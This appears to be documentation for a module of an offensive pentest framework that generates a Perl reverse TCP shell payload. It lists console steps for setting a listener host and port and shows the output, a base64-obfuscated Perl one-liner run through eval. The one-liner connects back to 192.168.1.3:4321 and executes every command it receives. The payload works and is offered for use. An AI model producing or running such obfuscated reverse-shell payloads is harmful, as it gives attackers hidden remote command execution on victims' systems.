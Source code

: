 ## Description

Module generates payload that creates interactive tcp reverse shell by using perl. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/perl/reverse_tcp`
  3. Do: `set lhost 192.168.1.3`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates perl tcp reverse shell payload

## Scenarios

```
rsf > use payloads/perl/reverse_tcp
rsf (Perl Reverse TCP) > set lhost 192.168.1.3
[+] lhost => 192.168.1.3
rsf (Perl Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Perl Reverse TCP) > run
[*] Running module...
[*] Generating payload
use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKFBlZXJBZGRyLCIxOTIuMTY4LjEuMzo0MzIxIik7U1RESU4tPmZkb3BlbigkYyxyKTskfi0+ZmRvcGVuKCRjLHcpO3doaWxlKDw+KXtpZigkXz1+IC8oLiopLyl7c3lzdGVtICQxO319Ow=='))
```
